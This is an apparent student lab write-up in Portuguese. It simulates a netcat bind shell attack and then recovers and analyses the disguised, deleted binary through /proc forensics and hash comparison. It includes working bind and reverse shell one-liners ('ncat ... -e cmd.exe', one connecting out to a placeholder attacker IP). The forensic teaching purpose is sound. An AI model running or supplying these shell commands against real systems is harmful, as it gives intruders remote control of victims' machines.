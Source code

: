 # bind-shell-attack

Nessa atividade foi necessário simular um bind shell attack, e após isso, no computador da vitima, recuperar o arquivo binário deletado desse ataque e analisar esse processo suspeito.

- Nesse ataque de backdoor foi utilizado o netcat, por mais que existam outras maneiras de realizar esse tipo de ataque.

Em um bind shell attack o computador da vítima é capaz de transmitir o executavel do bash, ou cmd, através de uma porta específica, para o computador da pessoa que deseja realizar esse ataque. No caso do netcat o atacante necessita fazer com que a vítima rode uma linha de comandos, transmitindo o bash para o computador do atacante. No caso do bind shell, o computador da vítima fica esperando que o computador de ataque se conecte ao ip e a porta.

Ex:
  C:\Program Files (x86)\Nmap>ncat -lvp 4444 -e cmd.exe  -> computador da vítima 
  
  nc x.x.x.x 4444 -> computador de ataque
  
Na atividade o netcat abre a porta tcp 41000 e envia informações para /dev/null do computador da vitima. Além disso ele mascara o nome do programa para "freedom",é colocado no diretorio /tmp(arquivos temporários), e após executado é removido, sobrando apenas o seu processo em execução.

![freedom](https://user-images.githubusercontent.com/44793167/96667221-06003680-132f-11eb-868f-c891f98685aa.jpg)

Após isso, na atividade era necessário utilizar o "nestat -nalp" para verificar a porta que esta aberta e o processo que está ocorrendo naquela porta, porém meu netstat não estava funcionando, mas foi possivel ver o processo em execução através do "ps", com o PID 16725.

![ps](https://user-images.githubusercontent.com/44793167/96667414-7018db80-132f-11eb-8ec3-24d72cb90de8.jpg)

Com o PID do nosso processo duvidoso, foi possível ver diversas informações sobre ele:

![info](https://user-images.githubusercontent.com/44793167/96667592-b5d5a400-132f-11eb-9272-0a0897fbe5ba.jpg)

Com isso, foi possivel ver que o arquivo binário do processo foi apagado, e assim foi necessário recuperar esse arquivo.

- Utilizando o comando:  cp /proc/16725/exe /tmp/recovered_bin

Para saber se a pessoa que atava o computador da vítima estava utilzando o netcat, podemos comparar as hashes dos dois programas, e assim ver se als são iguais.

![hashes](https://user-images.githubusercontent.com/44793167/96668117-da7e4b80-1330-11eb-9a5b-cfd2679cfcfd.jpg)

E assim sabemos que o processo era o netcat, só que camuflado.

Além disso, foram realizados outros tipos de análise

![cmdline](https://user-images.githubusercontent.com/44793167/96668463-95a6e480-1331-11eb-9807-40b0c8dade13.jpg)

- Através dessa análise do comand line, é possivel notar que os nomes estão diferentes, sendo características de programas maliciosos, pois esse programa está mascarado com um nome diferente do seu nome original.

![enviro](https://user-images.githubusercontent.com/44793167/96668766-3eedda80-1332-11eb-8571-30c584f46daf.jpg)

- Através do enviroment do processo podemos ver quem ou o que iniciou o processo

![fd](https://user-images.githubusercontent.com/44793167/96668962-ac9a0680-1332-11eb-9623-732d471f28e7.jpg)

- Pelos file descriptors é possivel saber diretórios ou arquivos que o processo está usando para armazenar coisas, juntamente com seus sockets abertos

![maps](https://user-images.githubusercontent.com/44793167/96669192-203c1380-1333-11eb-9b37-159465b2b74f.jpg)

- Pelos process maps é possivel saber que bibliotecas o processo estava utilizando, além de ser possivel que apareçam links para arquivos maliciosos que o processo estava utilizando.

![status](https://user-images.githubusercontent.com/44793167/96669468-ab1d0e00-1333-11eb-9516-595d0121f89a.jpg)

- Nos status do processo é possivel ver o PID dos processos pai desse processo.

Além do bind shell atack, existe o reverse shell atack, onde o computador de ataque fica a espera que o computador da vítima se conecte a ele, ou seja, o computador do atacante só precisa declarar que porta ele estará escutando, e assim o computador do alvo precisa se conectar ao ip e porta do atacante, além transmitir o executável do bash ou cmd.

ex:

   nc -lvp 4444 -> computador de ataque 
   
   C:\Program Files (x86)\Nmap>ncat x.x.x.x 4444 -e cmd.exe


  
